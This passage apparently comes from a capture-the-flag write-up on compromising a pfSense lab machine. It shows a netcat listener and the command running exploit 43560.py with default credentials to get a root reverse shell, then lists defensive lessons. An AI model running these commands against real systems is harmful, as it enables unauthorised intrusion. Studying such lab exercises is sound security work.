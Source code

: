 Therefore, let’s up a listener to receive the shell.

```text
nc -nlvp 1234
```

Then run the exploit.

```text
python3 43560.py --rhost 10.10.10.60 --lhost 10.10.14.12 --lport 1234 --username rohit --password pfsense
```

We have a shell!

![](https://miro.medium.com/max/735/1*HlkTLkGA2OYf6Nthu8ISUw.png)

For this machine, we don’t have to escalate privileges since pfSense is running as root and therefore when we exploited the command injection vulnerability we got a shell with root privileges.

View the user.txt and root.txt flags.

![](https://miro.medium.com/max/473/1*PjJO-DHzn0zFlKLW9TP7ew.png)

It’s worth noting that this can be easily done manually and is a good exercise for machines that don’t have scripts to automate the exploit.

## Lessons Learned <a id="29f5"></a>

To gain an initial foothold on the box we exploited three vulnerabilities.

1. Information disclosure. The changelog.txt & system-users.txt files were publicly available to anyone that enumerates the directories on the webserver. Those files gave us information about the vulnerabilities in the web server and credential information for one of the accounts. Administrators should never publicly store sensitive information.
2. Use of default credentials. The user used the default password that is shipped with the application. Since default credentials are publicly available and can be easily obtained, the user should have instead used a sufficiently long password that is difficult to crack.
3. Command injection in the pfSense software that allowed us to send a shell back to our attack server. This could have been avoided if the user had patched the system and installed the most recent version of pfSense.

As mentioned earlier, we didn’t have to escalate privileges for this box since pfSense runs with root privileges and therefore we got a shell with root privileges.

